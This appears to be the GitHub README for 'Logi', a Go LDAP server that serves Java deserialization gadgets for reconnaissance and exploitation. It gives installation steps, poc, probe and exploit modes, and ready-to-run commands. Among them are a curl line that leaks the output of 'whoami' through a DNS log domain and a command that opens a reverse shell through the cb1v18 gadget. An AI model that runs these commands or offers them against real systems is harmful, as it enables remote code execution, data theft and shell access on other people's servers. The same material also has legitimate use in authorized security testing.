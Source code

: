 # ☕️LOGI
Logi is a ldap server focusing on ldap deserialize recon and exploit.


- [☕️LOGI](#️logi)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
  - [🔮Image](#image)
  - [💻See also](#see-also)

## ✨Get started
Download logi from [release](https://github.com/cokeBeer/logi/releases), or use `go install`
```
go install github.com/cokeBeer/logi/cmd/logi@latest
```
Use `-h` to show help.
```
$ ./logi -h
Logi is a ldap server focusing on ldap deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
MODE CONFIG:
   -m, -mode int  1 for poc, 2 for probe, 3 for exploit
SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")
...
```

## ⚙️How it work
Logi hosts a ldap service, waiting for ldap lookup
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
Run poc mode with dns domain `dnslog.me`.
You need to send a ldap lookup to logi.
```
./logi -m 1 -d dnslog.me
```
Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`.
You need to request many times to traverse the wordlist.
```
./logi -m 2 -d dnslog.me -w yso
```
Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`.
One class name per line.
```
./logi -m 2 -d dnslog.me -wp ./dict.txt
```
Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`
```
./logi -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.me'
```
Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`
```
./logi -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
Run exploit mode with custom binary payload in `./cc1`
```
./logi -m 3 -b ./cc1
```
## 🔮Image
![image](image/logi.png)
![image](image/dnslog.png)
## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)

[Urldns](https://github.com/kezibei/Urldns)